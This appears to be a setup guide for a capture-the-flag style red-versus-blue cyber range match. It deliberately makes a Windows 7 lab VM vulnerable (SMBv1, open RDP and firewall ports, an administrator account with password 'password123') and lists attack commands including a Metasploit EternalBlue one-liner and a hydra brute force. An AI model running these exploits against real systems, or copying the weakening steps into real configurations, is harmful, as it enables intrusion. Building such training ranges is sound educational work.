 # 🚀 Quick Start Guide - Cyber Warfare Match

## **🎯 What We've Set Up**

### **✅ Backend Server**
- **Status**: Running on port 5000
- **Database**: MySQL with optimized indexes
- **Automated Scoring**: Enabled
- **ELK Integration**: Configured

### **✅ Match Configuration**
- **Match ID**: 3
- **Name**: Windows 7 Vulnerability Hunt
- **Teams**: RedTeam, BlueTeam
- **Duration**: 60 minutes
- **Flags**: 5 vulnerability flags created

### **✅ VMs Configured**
- **Target VM**: 172.16.26.132 (Windows 7 vulnerable server)
- **Attacker VM**: 172.16.200.136 (Kali Linux)

## **🚀 Next Steps to Complete Setup**

### **Step 1: Set Up Windows 7 Target Server (172.16.26.132)**

1. **Install Windows 7** on a VM with IP `172.16.26.132`
2. **Run these commands as Administrator**:
   ```cmd
   # Enable SMBv1 (MS17-010 vulnerability)
   reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v SMB1 /t REG_DWORD /d 1 /f
   
   # Enable RDP
   reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
   
   # Open firewall ports
   netsh advfirewall firewall add rule name="SMB" dir=in action=allow protocol=TCP localport=445
   netsh advfirewall firewall add rule name="RDP" dir=in action=allow protocol=TCP localport=3389
   
   # Create test account
   net user admin password123 /add
   net localgroup administrators admin /add
   
   # Create flag files
   mkdir C:\flags
   echo CYBERWAR{eternalblue_ms17_010} > C:\flags\ms17-010.txt
   echo CYBERWAR{smb_v1_enabled} > C:\flags\smb-v1.txt
   ```

### **Step 2: Set Up Kali Linux Attacker (172.16.200.136)**

1. **Install Kali Linux** on a VM with IP `172.16.200.136`
2. **Install tools**:
   ```bash
   sudo apt update && sudo apt install -y metasploit-framework nmap hydra xfreerdp enum4linux
   ```
3. **Test connectivity**:
   ```bash
   ping 172.16.26.132
   nmap -sS -p 445,3389,80 172.16.26.132
   ```

### **Step 3: Start the Match**

1. **Access Admin Dashboard**: http://localhost:3000/admin
2. **Login as admin**: admin@gmail.com / password
3. **Go to Cyberwar Admin Dashboard**
4. **Click "Start Match"** for Match ID 3

### **Step 4: Teams Join and Attack**

1. **Teams access**: http://localhost:3000/cyberwar
2. **Join teams**: RedTeam or BlueTeam
3. **Get assigned to Kali Linux VM**
4. **Start attacking the Windows 7 target**

## **🎯 Expected Vulnerabilities to Find**

### **Flag 1: MS17-010 EternalBlue (200 points)**
- **Command**: `nmap -p 445 --script smb-vuln-ms17-010 172.16.26.132`
- **Exploit**: `msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 172.16.26.132; run"`

### **Flag 2: SMB Version 1 (50 points)**
- **Command**: `nmap -p 445 --script smb-protocols 172.16.26.132`
- **Look for**: SMBv1 enabled

### **Flag 3: Open Ports Discovery (75 points)**
- **Command**: `nmap -sS -p- 172.16.26.132`
- **Expected ports**: 21, 22, 80, 445, 3389

### **Flag 4: Weak Password (150 points)**
- **Command**: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 172.16.26.132 smb`
- **Password**: `password123`

### **Flag 5: RDP Access (100 points)**
- **Command**: `xfreerdp /v:172.16.26.132 /u:admin /p:password123`
- **Goal**: Successfully connect via RDP

## **📊 Monitoring the Match**

### **Real-time Dashboard**
- **URL**: http://localhost:3000/cyberwar/admin
- **Features**: Live scoring, team progress, flag captures

### **ELK Stack Monitoring**
- **Kibana**: http://172.16.200.136:5601
- **Elasticsearch**: http://172.16.200.136:9200
- **Logstash**: http://172.16.200.136:5044

### **Automated Scoring**
- **Vulnerability Detection**: Every 30 seconds
- **Points Awarded**: Automatically when vulnerabilities found
- **Real-time Updates**: Via WebSocket

## **🔧 Troubleshooting**

### **If Windows 7 target not responding**:
```cmd
# Check if SMB is running
sc query lanmanserver

# Check if ports are open
netstat -an | findstr ":445"
netstat -an | findstr ":3389"
```

### **If Kali Linux can't reach target**:
```bash
# Check network connectivity
ping 172.16.26.132

# Check routing
route -n

# Test specific ports
telnet 172.16.26.132 445
```

### **If automated scoring not working**:
```bash
# Check backend logs
tail -f backend/logs/application-*.log

# Check vulnerability detection service
ps aux | grep vulnerabilityDetection
```

## **🎯 Quick Test Commands**

### **From Kali Linux (172.16.200.136)**:

1. **Basic connectivity**:
   ```bash
   ping -c 4 172.16.26.132
   ```

2. **Port scan**:
   ```bash
   nmap -sS -p 445,3389,80 172.16.26.132
   ```

3. **SMB test**:
   ```bash
   smbclient -L //172.16.26.132 -U admin%password123
   ```

4. **MS17-010 test**:
   ```bash
   nmap -p 445 --script smb-vuln-ms17-010 172.16.26.132
   ```

5. **RDP test**:
   ```bash
   xfreerdp /v:172.16.26.132 /u:admin /p:password123 /cert-ignore
   ```

## **🏆 Scoring System**

- **MS17-010 Exploit**: 200 points
- **SMBv1 Detection**: 50 points
- **Open Ports**: 75 points
- **Weak Password**: 150 points
- **RDP Access**: 100 points
- **Total Possible**: 575 points per team

## **🎉 Ready to Start!**

Once you've completed the Windows 7 and Kali Linux setup:

1. ✅ **Start the match** from admin dashboard
2. ✅ **Teams join** and get VM access
3. ✅ **Automated scoring** begins
4. ✅ **Monitor progress** in real-time
5. ✅ **Teams compete** to find vulnerabilities first

The system will automatically detect when teams successfully exploit vulnerabilities and award points accordingly!

---

**Need help?** Check the detailed setup guides:
- `backend/scripts/setupVulnerableServer.md` - Windows 7 setup
- `backend/scripts/setupKaliAttacker.md` - Kali Linux setup
